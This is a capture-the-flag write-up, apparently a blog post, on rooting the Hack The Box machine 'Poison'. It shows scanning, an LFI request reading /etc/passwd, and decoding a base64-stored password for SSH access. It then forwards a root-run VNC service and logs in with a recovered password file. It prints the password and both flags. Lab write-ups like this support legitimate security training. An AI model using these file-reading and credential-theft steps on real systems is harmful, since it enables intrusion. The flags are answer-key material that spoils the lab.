

+++
title = "HTB - Poison"
date = 2025-02-11
+++

</img>

### Scan
```
nmap -sV -sC --open -p- 10.10.10.84
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-09 23:50 EDT
Nmap scan report for 10.10.10.84
Host is up (0.14s latency).
Not shown: 51873 filtered tcp ports (no-response), 13661 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 75.37 seconds

nmap -sV -sC -p 80 10.10.10.84
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-10 00:06 EDT
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.64% done; ETC: 00:06 (0:00:00 remaining)
Nmap scan report for 10.10.10.84
Host is up (0.13s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.03 seconds

```

For whatever reason, my first scan completely missed 80... Let this be a lesson to always double and triple run these scans...
### Enumeration
##### 80 
</img>

The landing page offers some very critical information. We can run each script in the input field, and the one that peaks my interest the most is the `listfiles.php`. We get some useful information here, and we are also able to get what looks like an encrypted password via the `pwdbackup.txt`

</img>
</img>

Now, because of this Local File Inclusion (LFI) vulnerability, it's worth trying to probe a bit and see if we can leak any important information through URL hijacking. 

Below is a URL encoded ask for access to the `/etc/passwd` file. This holds a plaintext of every user that exists on the system. We need a username to match our encrypted password.

`view-source:http://10.10.10.84/browse.php?file=%2Fetc%2Fpasswd`

</img>
</img>

We can see the user `Charix` is of use here, so let's keep that in our back pocket.

### Initial Access

It takes a trained eye to see the encrypted password and know the method of doing so. We'll learn, it just takes time. This here is Base64, and we can write scripts that decode these for us.

 `data=$(cat pwd.b64); for i in $(seq 1 13); do data=$(echo $data | tr -d ' ' | base64 -d); done; echo $data`

Once the script is finished, we can see a password.

</img>

`Charix!2#4%6&8(0`

##### 22
With this password, we're able to snatch a shell as charix:

</img>

Luckily the user flag is also in the directory we spawned in.

`USER:eaacdfb2d141b72a589233063604209c`

### Privilege Escalation

Rooting around, we also find a `secret.zip`, but we need password to release its contents.

</img>

I tried to mess with it in the shell, but the wise thing to do is move it to our machine and work from there.

Because this is a FreeBSD machine as well, the syntax is fairly different, so take your time reading through the syntax forums and man pages around the different commands, functions and tools available to you. The below script is used to transfer files over SSH between linux machines. Simply, really. The annoying thing is the space and period at the end. DO NOT MISS THIS. I was figuring this out for a lot longer than I should've. (Hindsight, I was a very fresh lmao)

`scp charix@10.10.10.84:/home/charix/secret.zip .`

Instead of worrying about decoding the password, lets keep rooting around and enumerating. We can use `ps -aux` to list processes and the details around them.

We've got to study this, and upon doing so run into a XVNC service running as root. I was unfamiliar with VNC, but it is a Virtual Network Connection that serves as a means of connecting to a machine via a GUI remotely. Kind of like how RDP for Windows. We know that it runs on port `5091` from research, and can confirm it's doing the same here with `netcat`, specifically `netstat -an | grep LIST`

</img>

Because VNC is *virtual* network software, we need to use port forwarding to connect to it, because it is not accessible through the target machine. Let's configure our machine to use port 5000 and forward it to meet VNC on the target machine at port 5901. This is also done over SSH!

`ssh -L 5000:127.0.0.1:5901 charix@10.10.10.84`

Now, through some research, it turns out that we can pass the obfuscated secret file from earlier as the password to the VNC interface! Very cool stuff. 

</img>

The syntax to access the service is through vncviewer, and we can use the line below to specify our connection parameters and the password file we want to pass through!

`vncviewer 127.0.0.1:5000 -passwd secret`

</img>

Our root flag is in the spawned directory. 

`ROOT:716d04b188419cf2bb99d891272361f5`

### Post Exploitation
Password Decrept with git repo of vncpasswd.ppy
Log poisoning

#medium #freebsd #manual 
